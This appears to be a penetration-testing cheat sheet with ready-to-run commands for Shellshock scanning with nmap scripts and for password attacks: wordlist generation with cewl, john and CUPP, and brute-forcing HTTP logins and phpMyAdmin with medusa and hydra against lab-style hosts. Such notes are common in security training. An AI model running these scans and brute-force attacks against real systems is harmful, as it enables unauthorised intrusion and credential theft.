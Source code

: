 ### SHELLSHOCK

https://github.com/mubix/shellshocker-pocs
ls -lah /usr/share/nmap/scripts/*shellshock*
nmap *target* -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi

### Shocker

```
nmap -sV -p- --script http-shellshock *target*

nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls *target*

ls -lh /usr/share/nmap/scripts/*shellshock*
```

### Password brute force 

If you come across a hard to enumerate host This is your go to technique find all logins and list them here and start bruteforceing

REF: to the bruteforce tab in the web pentesters workbook. 

### Cewl
create a password list with cewl

cewl www.megacorpone.com -m 6 -w  /root/mega-cewl.txt 2>/dev/null
once the password list is ready then you can create more passwords, pass it on to john the ripper for some password mangling

john --wordlist=mega-cewl.txt --rules --stdout > mega-mangled

brute force http

medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 -m DIR:/admin -T 30

### COMMON USER PASSWORD PROFILER (CUPP)

1.	Python cup.py -i
2.	Insert victim name and information
3.	Get wordlist in cup directory

### hydra

```
hydra -l admin -P /root/Desktop/wordlists/500-worst-passwords.txt 10.194.0.36 http-get-form "/geeklog/users.php:login=^USER^&PASS^:Deny"


hydra -l admin -P passwords.lst -e ns -vV 192.168.2.10 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1:denied"
```
### SSH Bruteforce
